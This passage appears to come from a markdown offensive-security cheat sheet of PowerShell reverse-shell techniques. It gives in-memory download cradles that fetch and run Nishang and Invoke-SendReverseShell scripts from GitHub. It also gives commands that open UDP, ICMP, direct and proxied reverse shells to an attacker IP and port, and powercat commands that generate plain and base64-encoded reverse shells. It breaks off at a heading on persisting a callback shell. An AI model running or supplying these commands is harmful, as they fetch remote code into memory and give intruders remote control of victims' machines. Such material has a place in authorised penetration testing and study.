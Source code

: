 ##### 1.2 - UDP Protocol

Download cradle through memory.

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellUdp.ps1')

Invoke-PowerShellUdp -Reverse -IPAddress <attacker_IP> -Port <attacker_PORT>
```

##### 1.3 - ICMP Protocol

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1')

Invoke-PowerShellIcmp -IPAddress <attacker_IP>
```

#### 02 - `Invoke-SendReverseShell`

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Arno0x/PowerShellScripts/refs/heads/master/Invoke-SendReverseShell.ps1')
```

Direct connection.

```
PS C:\> Invoke-SendReverseShell -DestHost <attacker_IP> -DestPort <attacker_PORT>
```

Connection through system's default proxy.

```
PS C:\> Invoke-SendReverseShell -DestHost <attacker_IP> -DestPort <attacker_PORT> -UseDefaultProxy
```

Connection through manually specified proxy

```
PS C:\> Invoke-SendReverseShell -DestHost <attacker_IP> -DestPort <attacker_PORT> -ProxyName <HTTP_proxy_IP> -ProxyPort <HTTP_proxy_PORT>
```

#### 03 - `powercat`

Generate reverse shell.

```
> powercat -c <IP> -p <PORT> -e cmd.exe -g
```

Generate base64 encoded reverse shell.

```
> powercat -c <IP> -p <PORT> -e cmd.exe -ge
```

Persist callback shell.
